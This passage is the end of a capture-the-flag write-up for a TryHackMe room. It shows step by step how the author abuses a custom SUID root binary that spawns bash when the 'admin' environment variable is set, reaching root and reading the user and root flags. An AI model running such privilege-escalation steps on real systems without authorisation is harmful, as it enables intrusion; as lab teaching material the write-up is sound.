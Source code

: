 We have some common files, BUT there is an interesting one... `/usr/sbin/checker`. Never heard of this one. After checking on [GTFOBins](https://gtfobins.github.io/), we are sure that this is not a usual binary. Hmmmm...
Let's take a look on how this thing works.
```
$ ls -la /usr/sbin/checker     
-rwsr-sr-x 1 root root 8432 May 26 18:27 /usr/sbin/checker
```
So it is a root owned binary, with SUID flag on. What happens when we run it?

```
$ ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

So it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?
```
$ export admin=1
$ ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"
```
Oh, so now it tries to run bash! And since this is owned by root, it'll run bash as root! SWEET!
```
$ checker
$ id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Let's try again that stuff to find the user flag:
```
$ find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
/media/usb/user.txt
```
Oh, it was there! 
```
$ cat /media/usb/user.txt
<REDACTED>
```

and of course, the root flag:
```
$ cat /root/root.txt
<REDACTED>
```

And that's it! It was quite a nice room, and I've enjoyed it a lot!

Thank you for reading this write-up!

Created by: Stacker (THM), BarbosaRMS(github), Landau(everywhere else) | 11/07/2020
